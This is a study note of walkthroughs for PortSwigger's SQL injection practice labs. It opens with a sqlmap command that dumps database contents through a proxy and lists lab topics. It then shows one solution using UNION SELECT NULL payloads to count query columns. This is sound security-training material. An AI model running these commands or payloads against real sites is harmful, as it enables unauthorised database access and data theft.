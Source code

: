 ```ad-danger
USE THIS SQLMAP SETTINGS
~~~
sqlmap -r mistery.txt -p category --level=3 --dump --proxy=http://127.0.0.1:8080 --force-ssl
~~~
```
## Table of Contents

- [[#SQL injection UNION attack, determining the number of columns returned by the query]]
- [[#SQL injection UNION attack, finding a column containing text]]
- [[#SQL injection UNION attack, retrieving data from other tables]]
- [[#SQL injection UNION attack, retrieving multiple values in a single column]]
- [[#SQL injection attack, querying the database type and version on Oracle]]
- [[#SQL injection attack, querying the database type and version on MySQL and Microsoft]]
- [[#SQL injection attack, listing the database contents on non-Oracle databases]]
- [[#SQL injection attack, listing the database contents on Oracle]]
- [[#Blind SQL injection with conditional responses]]
- [[#Blind SQL injection with conditional errors]]
- [[#Blind SQL injection with time delays]]
- [[#Blind SQL injection with time delays and information retrieval]]
- [[#Blind SQL injection with out-of-band interaction]]
- [[#Blind SQL injection with out-of-band data exfiltration]]
- [[#SQL injection vulnerability in WHERE clause allowing retrieval of hidden data]]
- [[#Lab: SQL injection vulnerability allowing login bypass]]
- [[#Visible error-based SQL injection]]
- _**[[#Payloads]]**_

## SQL injection UNION attack, determining the number of columns returned by the query
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

```ad-hint
title: Quick Solution
The ``category`` parameter is vulnerable to SQL Injection, use a **UNION** attack to retrieve the number of columns, the payload is simply:

### Keep adding NULL until the error disappears
~~~
'+UNION+SELECT+NULL,NULL--
~~~
```

```ad-done
title: Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the ``category`` parameter, giving it the value ``'+UNION+SELECT+NULL--``. Observe that an error occurs.
3. Modify the category parameter to add an additional column containing a null value: 
~~~
'+UNION+SELECT+NULL,NULL--
~~~
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.
```

